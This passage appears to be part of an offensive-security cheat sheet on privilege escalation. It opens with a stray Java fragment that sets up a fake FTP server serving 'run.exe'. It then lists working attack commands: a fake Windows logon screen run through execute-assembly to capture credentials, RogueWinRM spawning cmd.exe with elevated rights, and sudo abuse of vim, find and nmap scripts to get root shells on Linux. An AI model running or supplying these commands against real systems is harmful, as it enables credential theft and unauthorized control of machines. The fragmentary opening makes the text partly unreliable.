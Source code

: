 fileSystem.add(new FileEntry(\"c:\\\\data\\\\run.exe\"));

fakeFtpServer.setFileSystem(fileSystem);

fakeFtpServer.start();

<a name="fake-logon-screen"></a>
# Fake Logon Screen

Domain: No

Local Admin: Yes

OS: Windows

Type: Delegate tokens

Methods:

1\.

execute-assembly fakelogonscreen.exe

<a name="abusing-winrm-services"></a>
# Abusing WinRM Services

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Service

Methods:

1\.

RogueWinRM.exe -p C:\\windows\\system32\\cmd.exe


<a name="abusing-sudo-binaries"></a>
# Abusing Sudo Binaries

Domain: No

Local Admin: Yes

OS: Linux

Type: Abusing Privileged Files

Methods:

1.  sudo vim -c \':!/bin/bash\'

2.  sudo find / etc/passwd -exec /bin/bash \\;

3.  echo \"os.execute(\'/bin/bash/\')\" \> /tmp/shell.nse && sudo nmap
    > \--script=/tmp/shell.nse
